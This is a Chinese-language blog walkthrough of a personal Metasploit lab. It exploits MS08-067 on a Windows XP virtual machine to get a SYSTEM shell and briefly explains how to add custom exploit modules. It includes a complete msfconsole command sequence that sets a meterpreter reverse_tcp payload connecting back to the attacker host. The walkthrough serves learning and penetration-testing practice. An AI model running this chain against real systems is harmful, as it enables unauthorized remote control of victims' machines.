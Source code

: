 ```yaml
---
title: Metasploit
date: 2020-05-21 19:47:40
tags:
categories:
description:
password:
---
```








## 0x00 序



课上体验了一把msf的一套流程，但是由于靶机已经上了补丁，所以失败了，这次来记录一下Metasploit的一套攻击流程，也不知道为啥，网上所有的入门也是拿课上的`ms08-067` 来测试的

那么我们这次来学习一下msf，并且能用msf用着`ms08-067` 来获取一个xp主机的`cmd`

（还顺便学学怎么加入自己的exp





> 参考：
>
> [Metasploit 官网](https://www.metasploit.com/)
>
> [MSF - Github](https://github.com/rapid7/metasploit-framework) ：  msf的github仓库
>
> [Metasploit入门系列(一)——何为MSF](https://www.jianshu.com/p/23a6df0c12ab)
>
> > [Metasploit入门系列(二)——初识模块](https://www.jianshu.com/p/ccd62cb6d691)
> >
> > [Metasploit入门系列(三)——基本命令](https://www.jianshu.com/p/2dec885bb3cf)
> >
> > [Metasploit入门系列(四)——小结备查](https://www.jianshu.com/p/52196a3cdce2)
> >
> > [Metasploit入门系列(五)——frp](https://www.jianshu.com/p/a94c247fe31d)
> >
> > [Metasploit入门系列(六)——永恒之蓝](https://www.jianshu.com/p/b6cc6ffa0695)
> >
> > [Metasploit入门系列(七)——Armitage](https://www.jianshu.com/p/412ce1fc7adc)
> >
> > [Metasploit入门系列(八)——Meterpreter(一)](https://www.jianshu.com/p/91a342fb664e)
> >
> > [Metasploit入门系列(九)——Meterpreter(二)](https://www.jianshu.com/p/91588e284fe8)
> >
> > [Metasploit入门系列(十)——Meterpreter(三)](https://www.jianshu.com/p/fcc665c91c94)
> >
> > [Metasploit入门系列(十一)——后渗透测试](https://www.jianshu.com/p/c6e544f9ec99)
>
> [Metasploit 学习笔记](https://blog.csdn.net/tan6600/article/details/46845793) ： 模块介绍
>
> [Meterpreter初探](https://www.cnblogs.com/wangyuyang1016/p/11032201.html) ：Metasploit的一个扩展模块，在后渗透阶段有强大的攻击力
>
> [后渗透之meterpreter使用攻略](https://xz.aliyun.com/t/2536)
>
> 





## 0x01 介绍



Metasploit是一款开源的安全漏洞检测工具，到目前为止，msf已经内置了数千个 已披露的漏洞相关的模块和渗透测试工具，模块使用ruby语言编写，这使得使用者能够根据需要对模块进行适当修改，甚至是调用自己写的测试模块。选定需要使用的攻击模块之后，你只需要使用简单的命令配置一些参数就能完成针对一个漏洞的 测试和利用，将渗透的过程自动化、简单化。



以下是Metasploit个版本的区别

![](Metasploit/metasploit_version.png)



kali里面自带了Metasploit Framework，我们就直接拿来用了



## 0x02 亲爱的ms08-067



这是一次刺激的msf攻击流程，用的是kali2020.02的vmware版本（输入banner命令可以看到不同一些奇奇怪怪的东西）

![](Metasploit/msf.png)

靶机是直接从msdn上刚下的winxp pro sp2，配置如下，内网地址为`192.168.52.135`

![](Metasploit/winxp_setting.png)



然后用kali的nmap扫一下靶机，发现啥都没扫出来，排查后发现是winxp的防火墙的原因，将其关掉，就发现该主机了

> 当然，加入发现445端口还没开的话，需要对win xp进行配置一下
>
> 编辑注册表`HKEY_LOCAL_MACHINE=>SYSTEM=>CurrentControlSet=>Services=>NetBT=>Parameters`
>
> 在`Parameters`上右键新建`DWORD`值，数值为1，重命名为`SMBDeviceEnabled`



![](Metasploit/namp_scan.png)



然后发现445端口开了之后就可以进行攻击了

在kali开启msf，先搜索一下这个漏洞，然后使用use

![](Metasploit/msf_search.png)



然后去找相应的payload

![](Metasploit/msf_payload.png)

![](Metasploit/msf_payload2.png)



然后用set命令设置对应攻击载荷payload，这里使用的是`reverse_tcp`，这是一个基于TCP的反向链接反弹shell, 使用起来很稳定

然后用`show target` ，来查找该漏洞受影响的机器，并根据目标靶机设置该选项

![](Metasploit/msf_target.png)

然后用`set target 10` 来设置目标靶机的版本

用`show options` 查看已经设置攻击模式



![](Metasploit/msf_option.png)



然后设置目标靶机的ip地址，LHOST是攻击主机的地址

> 当用户使用Metasploit框架中的模块时，经常需要配置LHOST参数。其中，LHOST参数用来指定本地主机IP地址。由于IP地址不容易记忆，而且输入也不方便。此时，用户可以使用接口名来代替，如set LHOST eth0。当用户指定接口名后，将自动使用eth0接口的IP地址。

![](Metasploit/msf_rhost.png)



这边注意，LHOST不要写本地回环的地址，否则会像我一样翻车的



![](Metasploit/msf_lhost.png)

然后用exploit命令，成功getshell



![](Metasploit/msf_getshell.png)

同时我们可以看到这边后台有一个system起的`cmd.exe`，即msf渗透得到的shell

简直可以为所欲为，不过试了下，windows这边还是可以终结掉kali的cmd进程

不过又有谁会发现进程里多了一个进程呢，还是system起的

![](Metasploit/win_cmd.png)



后面的meterpreter模块真的是万能的好用

> 具体命令参考：[后渗透之meterpreter使用攻略](https://xz.aliyun.com/t/2536)

一次完整的命令就如下了，虽然没有网上的博客直接打开一个shell，但是可以利用后渗透Meterpreter模块为所欲为，和getshell没啥大区别

```sh
search ms08-067
use exploit/windows/smb/ms08_067_netapi
show payloads
set payload windows/meterpreter/reverse_tcp
show targets
set target 10
show options
set RHOST 192.168.52.135 
set LHOST 192.168.52.133
exploit
```



## 0x03 设置自己的exp



> 参考：
>
> [Metasploit EXP开发](https://www.jianshu.com/p/6c7993ef7b4a)
>
> [Converting Metasploit Module to Stand Alone](https://netsec.ws/?p=262) ： 其翻译版本[如何改写msf的module为独立的exp？](https://blog.csdn.net/yalecaltech/article/details/89158575)
>
> [给kali的Metasploit下添加一个新的exploit](https://blog.csdn.net/SilverMagic/article/details/40978081)
>
> 



这边先mark一下，万一以后用到了呢/doge

其exp是使用ruby语言编写的，可以仿照msf已有的exp进行编写，存放位置如下：`/usr/share/metasploit-framework/modules/exploits/fwdtest` 

写完放到里面后，在msf下重新加载模块`msf > reload_all`，在用`use xxx`命令能够自动补全时，说明成功添加



## 0x04 常用命令链接



[metasploit常用命令](https://www.cnblogs.com/hijacklinux/p/7072854.html)

[msfconsole常用命令](https://www.jianshu.com/p/7e630bbd294a)



[meterpreter常用命令+脚本](https://maplege.github.io/2017/09/16/meterpreterCommand/)

